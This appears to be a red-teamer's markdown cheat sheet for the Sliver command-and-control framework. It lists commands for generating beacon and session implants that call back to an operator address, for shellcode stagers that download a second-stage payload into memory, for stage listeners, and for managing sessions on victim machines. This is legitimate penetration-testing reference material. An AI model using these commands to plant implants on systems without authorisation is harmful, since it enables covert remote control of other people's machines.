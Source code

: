# Sliver

### Overview

- launch with `sliver-server`
- Sliver has 2 modes:
	- **Session** - Real time communication using either a persistent connection or using long polling depending on the underlying C2 protocol.
		- `generate --mtls 192.168.1.18 -s ~/sliver`
		- `profiles generate -s ~/sliver profile-name`
		- `sessions`
			- `use <session>`
			- `background`
			- `close` Close connection while keeping binary running on victim, session will eventually reopen if listener is up
	- **Beacon** - Asynchronous communication style where the implant periodically checks in with the server retrieves tasks, executes them, and returns the results.
		- `generate beacon --mtls 192.168.1.18 -s ~/sliver`
		- `profiles generate -s ~/sliver profile-name`
		- `beacons`
			- `watch`
		- `tasks <beacon>` Manage beacon tasks
		- `interactive <beacon>` Task a beacon to open an interactive session
	- Specify format with `-f`.
		- `exe` (default)
		- `shared`
		- `service` (see `psexec` for more info)
		- `shellcode`
	- Specify connection type with `--mtls`, `--wg`, `--http`, or `--dns`.
		- Note that when an implant attempts to connect to an endpoint specified using `--http` it will try both HTTPS and then HTTP (if HTTPS fails).
		- It is recommended to use mTLS (`--mtls`) or WireGuard (`--wg`) whenever possible.

### Stagers

Stagers are strongly advised as payloads can be large. They also perform the following:
- Read the size of the stage 2 payload on the wire (the first 4 bytes for the TCP stager)
- Download the stage 2
- Allocate the size read in the first step, and write the stage in memory (this is why the stager has a different name to the implant, as the connection is moved from the stager to the implant)

### Stager Generation

1. Create an implant profile. Provides an easy way to save implant configuration and easily generate multiple copies of binaries with the same settings while still having per-binary certificates/obfuscation/etc.
	- `profiles new --mtls 192.168.1.18 --format shellcode win-shellcode`
		- Specify the sliver as a beacon with `profiles new beacon`
2. Start a listener based on the newly created profile
	- `stage-listener --url http://192.168.1.18:1234 --profile win-shellcode`
		- `--url` only accepts the schemes `tcp://`, `http://` and `https://`
		- Add `--prepend-size` to allow connections from Metasploit stagers
		- Check listeners with the command: `jobs`
2. `generate stager -L 192.168.1.18 -l 1234 -r http-s /tmp`

### Management Commands

- `use <session/beacon>`
- `jobs` Manage listeners
- `hosts`
	- `ioc` Manage tracked IOCs
- `implants` View previously generated implant binaries
	- `regenerate <name>` Re-download previously generated implant (can use save flag)
- `update`

### Management Flags

- `prune` Kill all stale beacons/sessions automatically
- `rm` Remove beacons/hosts/implants from database
- `-k <id>` Kill one (sessions, beacons and jobs)
- `-K` Kill all (sessions, beacons and jobs)
- `-F` Force kill (sessions and beacons)

### Armory

- `armory` Download and install extensions/aliases
	- `install`
	- `search`
	- `update`

### Additional Notes
- Add `-h` to the end of any command to see usage
